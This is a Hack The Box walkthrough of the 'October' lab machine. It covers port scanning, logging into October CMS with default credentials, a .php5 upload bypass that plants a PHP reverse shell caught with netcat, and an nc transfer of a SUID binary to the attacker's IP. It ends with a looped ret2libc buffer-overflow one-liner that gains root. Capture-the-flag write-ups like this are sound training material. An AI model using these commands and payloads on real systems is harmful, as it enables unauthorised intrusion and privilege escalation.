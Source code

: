 ![logo](/logo.png)

# [October- BOX]  
Hi folks, today I am going to solve an medium rated hack the box machine which was released on 20 Apr 2017 as the 13th machine on HTB,October created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *CMS
  *OverflowBuffer
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/october 10.10.10.16
```

###### Output 

![](/Linux/Linux-Medium/October/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/october 10.10.10.16                                                                                         ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-14 20:35 EAT
Nmap scan report for 10.10.10.16
Host is up (0.39s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 79:b1:35:b6:d1:25:12:a3:0c:b5:2e:36:9c:33:26:28 (DSA)
|   2048 16:08:68:51:d1:7b:07:5a:34:66:0d:4c:d0:25:56:f5 (RSA)
|   256 e3:97:a7:92:23:72:bf:1d:09:88:85:b6:6c:17:4e:85 (ECDSA)
|_  256 89:85:90:98:20:bf:03:5d:35:7f:4a:a9:e1:1b:65:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: October CMS - Vanilla
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-methods: 
|_  Potentially risky methods: PUT PATCH DELETE
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.36 seconds
```

looking at the results  we find out that there are 2 ports open and its a `Ubuntu`and its running an `Apache httpd 2.4.7`. 

port[22]-ssh
port[80]-http

when we naviagate to [http://10.10.10.16](http://10.10.10.16)  we find a page run a theme for CMS

![](/Linux/Linux-Medium/October/Screenshots/vanilla.png)

I decide to run `gobuster` so that i can revel other directory that can be used to exploit the machine.

```sh
gobuster dir -u http://10.10.10.16 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -k
```

![](/Linux/Linux-Medium/October/Screenshots/gobuster.png)

`Gobuster` revels a page module backed and it looks interesting upon viewing an Administrator login page

![](/Linux/Linux-Medium/October/Screenshots/Administrator.png)

Upon trying default password like `admin:admin` i log in to the administrator of the CMs

![](/Linux/Linux-Medium/October/Screenshots/Admin.png)

The media page revel that you can upload a php file beacuse their is a php file uploaded so we would probaly use this to upload a shell.

![](/Linux/Linux-Medium/October/Screenshots/upload.png)

Upon searching I come accross an [exploit](https://www.exploit-db.com/exploits/41936) According to the above exploit, it is possible to upload a file with a `.php5 ` extension and it will bypass the filter. From here it is trivial to obtain a shell on the target. Let upload a reverse shell a default from kali Linux

```sh
locate php-reverse-shell.php
```

Then to copy to working directory

```sh
cp /usr/share/laudanum/php/php-reverse-shell.php .
```

![](/Linux/Linux-Medium/October/Screenshots/phpreverse.png)

![](/Linux/Linux-Medium/October/Screenshots/reverseshell.png)
so we upload this file and set a listner.

```sh
nc -lnvp 1234
```

![](/Linux/Linux-Medium/October/Screenshots/shell.png)

and you can get `user.txt`

![](/Linux/Linux-Medium/October/Screenshots/user.txt.png)

so i run `LinEnum` which is used to determine if their are vunerability on the box [LinEnum](https://github.com/rebootuser/LinEnum)

![](Linux/Linux-Medium/October/Screenshots/LinEnum.png)
Running LinEnum reveals a non-standard SUID binary at `/usr/local/bin/ovrflw`. Passing a large
argument to the binary causes a segmentation fault, and it can be assumed that root is obtained
by exploiting the buffer overflow.

![](/Linux/Linux-Medium/October/Screenshots/overflow.png)

Checksec shows that NX/DEP is enabled. Checking on the target reveals that ASLR is also
enabled. Passing a pattern to the binary in gdb finds that there is 112 bytes before the buffer is
overflowed and the EIP is overwritten.

so lets send the binary to our machine 

```sh
nc -w 5 10.10.14.15 9000 < /usr/local/bin/ovrflw
```

![](/Linux/Linux-Medium/October/Screenshots/nc.png)

![](Linux/Linux-Medium/October/Screenshots/ovflw.png)
Then we check the file to see if it has changed the content we we imported it to our machine.

```sh
md5sum ovrflw
```

![](/Linux/Linux-Medium/October/Screenshots/md5.png)

![](/Linux/Linux-Medium/October/Screenshots/md5sum.png)

The command `ldd /usr/local/bin/overflw | grep libc` will get the libc address of the binary as well as the path to the libc library.

```sh
ldd /usr/local/bin/overflw | grep libc
```

![](/Linux/Linux-Medium/October/Screenshots/libc.png)

The command `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system` will get the system offset for libc.

```sh
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```

![](/Linux/Linux-Medium/October/Screenshots/system.png)

The command `strings -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh` will find the address to reference to call `/bin/sh`.

```sh
strings -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```

![](/Linux/Linux-Medium/October/Screenshots/strings.png)

Using the above information, it is possible to create a script to repeatedly call the binary with a
payload in the following format: `JUNK*112 + libcAddress + JUNK*8 + binShAddress

![](/Linux/Linux-Medium/October/Screenshots/overflow2.png)

Because ASLR is enabled, I’ll do it in a loop until I get a shell:

```sh
while true; do /usr/local/bin/ovrflw $(python -c 'print "\x90"*112 + "\x10\x83\x63\xb7" + "\x60\xb2\x62\xb7" + "\xac\xab\x75\xb7"'); done
```


You can get the `root.txt` now since we have root privillage

![](/Linux/Linux-Medium/October/Screenshots/root.png)

	-------------------------END successful attack @lesley----------------------


